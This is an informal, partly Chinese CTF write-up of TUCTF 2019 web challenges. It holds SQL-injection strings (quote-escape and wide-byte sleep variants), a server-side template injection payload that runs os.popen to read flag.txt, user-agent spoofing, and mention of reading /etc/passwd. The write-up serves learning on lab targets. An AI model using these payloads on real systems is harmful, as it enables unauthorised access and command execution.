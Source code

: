 categories:
- 比赛
tags:
- wp
- ctf
title: tuctf2019
---
# tuctf2019

## web

### Router Where Art Thou?

 http://chal.tuctf.com:30006/0.html 

 http://chal.tuctf.com:30006/1.html

 http://chal.tuctf.com:30006/2.html  

` FIXME: need to use Page::includeStaticResource `

`2.html:603  hidden variables, we are going to set this to the session, bug fix 2157`

https://192.168.1.254/



....爆破密码获得flag

### Login to Access

当Referer不为http://chal.tuctf.com:30001/login.html时,存在sql注入

当Referer: http://chal.tuctf.com:30001/login.hmtl时sql 注入被过滤

对第一种情况sql注入得到

```python
#database:information_schema,challenge,mysql,performance_schema,sys 
#table:users
#columns:user,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
#user,password,USER : dave,hunter2,dave
```



利用得到的账号密码直接在第二步登陆无效,猜测第二步还要sql注入

- sql注入

``` python
dave'+or+1%23 x
dave"+or+1%23 x
dave")+or+1%23 x
dave')+or+1%23 x
\转义'或"来逃逸失败


```

宽字节注入:

```python
#username=%2bsleep(10)&password=%bf%5c" x
#username=%2bsleep(10)&password=%bf%5c' x
#username=%bf%5c"&password=%2bsleep(10) x
#username=%bf%5c'&password=%2bsleep(10) x
```







sql注入点时username还是password

是单引号还是双引号闭合

过滤了哪些字符，转义了哪些字符

We then looked at the challenge’s description again and realized that there might be backup of file somewhere. We then tried to get the **login.php.bak**.

![img](https://khroot.com/wp-content/uploads/2019/11/image-201.png)

Surprise, there really is a backup file there. Let’s see what is inside.

![img](https://khroot.com/wp-content/uploads/2019/11/image-202-1024x385.png)

We found the flag, and it is ***TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}\***

### The Droid You're  Looking For

看到droid想到robots.txt,直接访问提示没有权限

因为robots.txt是给爬虫看的,所以去百度了一个google爬虫的user-agent:

```
Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.96 Mobile Safari/537.36 (compatible; Googlebot/2.1;
```

robots.txt

```
User-agent: *
Disallow: googleagentflagfoundhere.html
```

TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}



### And Now, For Something Completely Different

```python
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1509, in _execute
    result = method(*self.path_args, **self.path_kwargs)
  File "/usr/src/app/class_website.py", line 87, in post
    if len(name) == 0 or len(phone_num) == 0 or len(email) == 0 or len(passwd2) == 0 or passw != passw2:
NameError: global name 'passwd2' is not defined
```

在网页中发现

```html
<!-- TODO: add /welcome/test -->
```

打开只有welcome test <==> /welcome/test

猜测是ssti

`{{__import__('os').popen('cat flag.txt').read()}}`

 TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 



### Cute Animals Company

修改cookie获得登陆权限

sqlmap得到密码

file:///etc/passwd获得flag???

http访问都不行的呀

